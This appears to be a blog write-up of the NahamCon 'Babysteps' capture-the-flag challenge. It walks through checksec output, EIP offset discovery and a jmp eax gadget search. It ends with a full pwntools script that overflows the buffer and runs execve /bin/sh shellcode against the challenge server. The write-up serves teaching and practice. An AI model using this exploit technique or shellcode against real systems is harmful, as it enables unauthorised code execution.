


## Checksec
It's an aboslute mess, nothing is turned on fortunately :)
```
Canary                        : ✘
NX                            : ✘
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

## Exploitation
### 1. EIP Control
We obtain our offset very easily in GEF.


<center>


</center>

### 2. Exploitation
We start by analyzing the stack at the overflown state.


Looking at the registers, It appears that only two registers point to our stack. `eax` and `esp`.

We search for gadgets jumping to any of these registers.
```
gef➤  ropper --search jmp
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: jmp

[INFO] File: /home/hegz/HDD/Cyber/CTF/NahamCon/Babysteps/babysteps

0x08049545: jmp eax;
```

We find a `jmp eax` gadget, this is perfect.

`eax` seems to point to the start of our buffer too.

Knowing that our offset to EIP is 28-bytes, this leaves us with two options:
1. Squeeze a shellcode in these 28 bytes and execute it by jumping to the start of the buffer using the `jmp eax` gadget.
2. Write our shellcode after the 28 bytes and pad the buffer with a NOP sled to our shellcode.

Option 1 wasn't successful due to the length of most execve shellcodes, the smallest execve shellcode I could find was 24-bytes in size and It leveraged the stack to expand further beyod these 24-bytes using multiple push instructions, this made my shellcode overflow itself, hence I was screaming at my keyboard on twitter.

<blockquote class="twitter-tweet" data-dnt="true" data-theme="dark"><p lang="en" dir="ltr">you know you should stop when your overflown shellcode overflows itself...</p>&mdash; hegz (@hegzploit) <a href="https://twitter.com/hegzploit/status/1519840156487929861?ref_src=twsrc%5Etfw">April 29, 2022</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

This lead us to just pad the buffer with nops and put our shellcode after `EIP`.

Here's our exploit.

```python
from pwn import *

context.binary = e = ELF("./babysteps")
context.encoding = 'latin'

if args['REMOTE']:
    io = remote("challenge.nahamcon.com", 30369)
elif args['GDB']:
    # Breaks at RTN instruction.
    io = gdb.debug(context.binary.path, f"""
    b *0x080492d0
""")
else:
    io = e.process()

OFFSET = 28
jmp_eax = 0x08049545
# Shellcode from http://shell-storm.org/shellcode/files/shellcode-811.php
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

io.clean(0.5)
io.fit(
    {OFFSET : p32(jmp_eax),
     OFFSET + 4 * 5 : shellcode},
    filler=b"\x90")
io.interactive()
```

<center>


</center>
